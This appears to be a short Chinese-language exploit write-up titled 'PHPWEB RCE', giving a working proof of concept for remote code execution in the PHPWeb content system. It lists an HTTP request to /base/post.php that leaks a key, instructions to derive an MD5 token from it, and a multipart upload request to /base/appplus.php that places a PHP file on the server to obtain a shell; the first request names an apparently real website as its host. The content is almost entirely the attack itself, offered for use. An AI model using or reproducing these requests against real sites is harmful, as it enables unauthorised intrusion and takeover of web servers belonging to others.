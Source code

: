 # PHPWEB RCE

---
#### 1.首先，先post发包获取值

POST /base/post.php HTTP/1.1
Host: www.sdyycm.com
User-Agent: Mozilla/5.0 (Windows NT 6.2; WOW64; rv:18.0) Gecko/20100101 Firefox/18.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-cn,zh;q=0.8,en-us;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 11

act=appcode

#### 2.获取    `k=504871bc9e70a836ae5ee70e69bde615&t=1578585276`  k的值

>    然后md5加密32位k的值+a  `504871bc9e70a836ae5ee70e69bde615a(504871bc9e70a836ae5ee70e69bde615+a` 加密之后的值为  `d950d53f648925e1c5ce8dc8bd6e8181`之后post包getshell ,post包m字段内容就是这个md5加密之后的值

### poc

---

```
POST /base/appplus.php HTTP/1.1
Host: www.xx.com
Content-Length: 711
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: null
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary92Ek3CIGduLPoRLt
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/65.0.3314.0 Safari/537.36 SE 2.X MetaSr 1.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

------WebKitFormBoundary92Ek3CIGduLPoRLt
Content-Disposition: form-data; name="file"; filename="123.php"
Content-Type: application/octet-stream

asdasda
------WebKitFormBoundary92Ek3CIGduLPoRLt
Content-Disposition: form-data; name="t"

a
------WebKitFormBoundary92Ek3CIGduLPoRLt
Content-Disposition: form-data; name="m"

d950d53f648925e1c5ce8dc8bd6e8181
------WebKitFormBoundary92Ek3CIGduLPoRLt
Content-Disposition: form-data; name="act"

upload
------WebKitFormBoundary92Ek3CIGduLPoRLt
Content-Disposition: form-data; name="r_size"

7
------WebKitFormBoundary92Ek3CIGduLPoRLt
Content-Disposition: form-data; name="submit"

getsell
------WebKitFormBoundary92Ek3CIGduLPoRLt--
```

